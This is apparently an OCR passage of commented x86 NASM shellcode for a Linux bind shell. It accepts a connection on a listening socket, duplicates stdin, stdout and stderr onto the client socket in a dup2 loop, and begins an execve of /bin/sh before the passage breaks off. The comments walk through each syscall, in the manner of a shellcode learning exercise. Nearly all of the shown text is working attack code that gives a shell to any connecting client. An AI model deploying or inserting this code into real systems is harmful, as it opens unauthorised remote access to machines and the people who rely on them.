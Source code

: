 ```nasm
		push edi		; backlog = 0
		
		push esi		; ESI still has our socketfd
		mov ecx, esp

		int 0x80

		;********************************************************************************;
		; Accept connections with sys_accept
		
		; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
		; we dont want any information regarding the client. So, from the man page of accept : 
		; When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.
		
		; EAX = 0x66		; sys_socketcall()
		; EBX = 0x5		; sys_accept()
		; ECX = Pointer to args of sys_accept()


		mov al, 0x66
		inc ebx
		
		push edi		; addrlen = EDI = 0
		push edi		; addr	  = EDI = 0
		push esi		; ESI has our sockfd
		mov ecx, esp
		
		int 0x80

	
		;********************************************************************************;
		; Redirect srdin, stdout, stderr with sys_dup2
		; int dup2(int oldfd, int newfd);
		; sys_dup2 = 0x3f

		;EAX 	= 0x3f
	        ;EBX	= oldfd	= clientfd
       		;ECX	= newfd	= 0, 1, 2

		xchg ebx,eax		; save the clientfd in ebx
		
	        xor eax, eax
		xor ecx, ecx
		mov cl,0x2

		dup_loop:
			mov al, 0x3f		; sys_dup2()
			int 0x80
			dec ecx			; 2, 1, 0
			jns dup_loop		; loop until SF is set

		;********************************************************************************;
		; execve /bin/sh
		
		; EAX	= 0xb		; sys_execve()
	    	; EBX	= pointer to /bin/sh null terminated
      		; ECX	= pointer to address of /bin/sh null terminated
		; EDX	= pointer to an empty array
		
		xor eax, eax
		push eax				; push first 4 null bytes onto stack
			
```